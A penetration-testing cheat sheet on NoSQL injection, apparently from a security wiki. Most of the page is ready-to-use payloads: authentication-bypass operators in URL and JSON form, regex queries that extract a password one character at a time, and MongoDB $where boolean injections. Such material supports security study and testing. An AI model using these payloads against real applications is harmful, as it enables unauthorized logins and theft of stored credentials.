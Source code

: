 # NoSQL Injection

## Theory

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice

#### Authentication Bypass

Using not equal ($ne) or greater ($gt) we can try to bypass authentication

{% tabs %}
{% tab title="URL" %}
```
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
```
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}
{% endtabs %}

#### Extract data

### Extract data
{% tabs %}
{% tab title="URL" %}
We can use regex to find the lenght of a value

```
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract informations.

```
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```

We can use `$nin` (not in) if you don't want to match with some values.

```
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```

We can use regex to find the lenght of a value

```
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract informations.

```
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```

We can use `$nin` (not in) if you don't want to match with some values.

```
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```

#### &#x20;MangoDB Injection

{% tabs %}
{% tab title="Payloads" %}
You may try to make boolean based injection on MongoDB with following payloads

```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}
